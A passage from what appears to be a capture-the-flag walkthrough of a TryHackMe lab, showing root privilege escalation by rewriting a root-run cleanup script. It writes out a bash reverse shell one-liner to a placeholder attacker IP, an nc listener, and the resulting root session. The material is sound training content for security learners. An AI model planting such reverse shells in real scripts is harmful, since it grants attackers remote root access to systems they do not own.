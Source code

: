 - So I checked the script and actually that's our way to root!

  ```
  root@7546fa2336d6:/opt# cd clean/
  root@7546fa2336d6:/opt/clean# ls -la
  total 16
  drwxr-xr-x 2 root root 4096 May  1  2021 .
  drwxrwxr-x 1 root root 4096 Mar 25  2021 ..
  -rw-r--r-- 1 root root   27 May  1  2021 clean.sh
  
  root@7546fa2336d6:/opt/clean# cat clean.sh 
  #!/bin/bash
  
  rm -rf /tmp/*
  ```

---

## 👑 Root Privilege Escalation

- Since we found the way to escalate to root, let's do it! It's pretty simple, we will add bash one-liner reverse shell to this script and start a listener. After that just wait a bit and you will have a connection.

  ```
  root@7546fa2336d6:/opt/clean# nano clean.sh 
  root@7546fa2336d6:/opt/clean# cat clean.sh 
  #!/bin/bash
  
  bash -i >& /dev/tcp/[YOUR-THM-IP]/4444 0>&1

  nc -lvnp 4444
  listening on [any] 4444 ...
  connect to [YOUR-THM-IP] from (UNKNOWN) [10.10.167.191] 56226
  bash: cannot set terminal process group (2929): Inappropriate ioctl for device
  bash: no job control in this shell
  root@cat-pictures:~# whoami
  whoami
  root
  root@cat-pictures:~# id
  id
  uid=0(root) gid=0(root) groups=0(root)
  root@cat-pictures:~# hostname
  hostname
  cat-pictures
  ```
  
- We are also root here but host is different, flag is waiting for you there as soon as you connect.

  ```
  root@cat-pictures:~# pwd 
  pwd
  /root
  
  root@cat-pictures:~# ls -al
  ls -al
  total 60
  drwx------  8 root root 4096 Apr  2  2021 .
  drwxr-xr-x 23 root root 4096 Apr 30  2021 ..
  lrwxrwxrwx  1 root root    9 Mar 24  2021 .bash_history -> /dev/null
  -rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
  drwx------  3 root root 4096 Mar 31  2021 .cache
  drwx------  3 root root 4096 Mar 24  2021 .config
  drwxr-xr-x  2 root root 4096 Apr  2  2021 firewall
  drwx------  3 root root 4096 Mar 24  2021 .gnupg
  ```